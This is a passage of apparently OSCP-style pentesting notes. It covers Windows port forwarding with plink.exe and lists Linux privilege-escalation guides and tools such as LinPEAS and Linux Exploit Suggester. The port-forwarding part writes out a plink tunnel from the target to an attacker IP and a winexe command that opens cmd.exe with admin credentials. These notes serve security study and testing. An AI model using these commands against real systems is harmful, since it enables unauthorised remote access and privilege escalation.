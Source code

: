 ### Port Forwarding

* Sometimes its easier to run code on kali but the target is only listening on an internal port
* Enter Plink.exe
* winexe port connects with port 445
* Setup
  * /etc/ssh/sshd\_config - make usre PermitRootLogin is set to Yes
  * \#service ssh restart
* \>.\plink.exe root@\[attackerIP] -r 445:127.0.0.1:445
  * Forward remote port to local port
* Now we run winexe at our local port on the attacker box, and plink sends it to the target, posing as an internal port
  * \#winexe \_u ‘admin%password’ //127.0.0.1 cmd.exe
{% endtab %}
{% endtabs %}

## **Linux Privilege Escalation**

{% tabs %}
{% tab title="Guides and Reference" %}
* [HackTricks - Linux](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
* [https://in.security/lin-security-practise-your-linux-privilege-escalation-foo/](https://in.security/lin-security-practise-your-linux-privilege-escalation-foo/)
* [https://www.hackingarticles.in/linux-for-pentester-find-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-find-privilege-escalation/)
* [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)
* [https://www.youtube.com/watch?v=dk2wsyFiosg](https://www.youtube.com/watch?v=dk2wsyFiosg)
* [https://resources.infosecinstitute.com/topic/privilege-escalation-linux-live-examples/#gref](https://resources.infosecinstitute.com/topic/privilege-escalation-linux-live-examples/#gref)
* [https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-\_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege\_escalation\_-\_linux.html)
* [https://xapax.github.io/security/#post\_exploitation/privilege\_escalation\_-\_linux/](https://xapax.github.io/security/#post\_exploitation/privilege\_escalation\_-\_linux/)
{% endtab %}

{% tab title="PrivEsc Tools" %}
* [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) - These tools search for possible local privilege escalation paths that you could exploit and print them to you with nice colors so you can recognize the misconfigurations easily.
* [LinEnum](https://github.com/rebootuser/LinEnum) - Scripted Local Linux Enumeration & Privilege Escalation Checks
* [LSE](https://github.com/diego-treitos/linux-smart-enumeration) - Linux Smart enumeration, Linux enumeration tools for pentesting and CTFs
* [Unix Privesc Check](http://pentestmonkey.net/tools/audit/unix-privesc-check) - Unix-privesc-checker is a script that runs on Unix systems (tested on Solaris 9, HPUX 11, Various Linuxes, FreeBSD 6.2). It tries to find misconfigurations that could allow local unprivilged users to escalate privileges to other users or to access local apps (e.g. databases).
* [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) - Next-Generation Linux Kernel Exploit Suggester
* [SUDO Killer ](https://github.com/TH3xACE/SUDO\_KILLER)- Linux Privilege Escalation through SUDO abuse.
{% endtab %}
